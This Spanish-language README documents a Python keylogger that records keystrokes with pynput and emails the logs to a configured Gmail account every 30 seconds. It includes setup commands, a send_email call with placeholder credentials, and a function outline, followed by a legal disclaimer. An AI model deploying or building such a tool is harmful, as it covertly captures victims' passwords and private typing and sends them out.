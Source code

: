 # Keylogger

**Keylogger** es una herramienta en Python que captura las teclas presionadas por el usuario y envía informes periódicos de la actividad registrada a un correo electrónico especificado. Utiliza la biblioteca `pynput` para monitorear la actividad del teclado y `smtplib` para enviar los informes vía email.

## Requisitos

- Python 3.x
- Biblioteca `pynput` (puede instalarse con `pip install pynput`)
- Acceso a una cuenta de correo de Gmail para enviar los reportes (se debe permitir el acceso a aplicaciones menos seguras o generar una contraseña de aplicación).

## Instalación

1. Clona o descarga este repositorio.
2. Instala las dependencias necesarias:
    ```bash
    pip install pynput
    ```

3. Modifica las credenciales del correo electrónico en la función `send_email` con tu correo, destinatarios y contraseña de aplicación:
    ```python
    self.send_email("Keylogger Report", email_body, "tu_correo@gmail.com", ["destinatario@gmail.com"], "tu_contraseña_de_aplicación")
    ```

## Uso

1. Inicia el programa ejecutando el script:
    ```bash
    python3 Keylogger.py
    ```

2. El keylogger comenzará a registrar las teclas presionadas y enviará informes cada 30 segundos al correo configurado.

3. Para detener la ejecución del keylogger, puedes finalizar el proceso manualmente en la terminal.

## Explicación del Código

- **pressed_key(key)**: Esta función registra cada tecla presionada y las almacena en `self.log`. Detecta tanto caracteres normales como teclas especiales (enter, espacio, backspace, etc.).
  
- **send_email(subject, body, sender, recipients, password)**: Envía el registro de teclas recopilado como cuerpo del correo electrónico. Utiliza `smtplib` y un servidor SMTP de Gmail para enviar el correo.

- **report()**: Esta función es invocada periódicamente (cada 30 segundos) para enviar los registros capturados y limpiar el registro de teclas.

- **start()**: Inicia el keylogger y la escucha de teclas presionadas.

- **shutdown()**: Detiene el keylogger cancelando el temporizador y evitando el envío de más informes.

## Notas

- Este keylogger envía los datos de las teclas presionadas a un correo electrónico. Para usarlo, debes configurar tu cuenta de Gmail para permitir aplicaciones menos seguras o generar una contraseña de aplicación.
- **Uso Responsable**: Este software debe utilizarse únicamente en sistemas en los que tienes autorización para realizar monitoreo de teclas.

## Advertencia Legal

El uso no autorizado de esta herramienta en sistemas ajenos es ilegal. Asegúrate de utilizarla únicamente con fines educativos y en sistemas donde tienes permiso para realizar estas actividades.
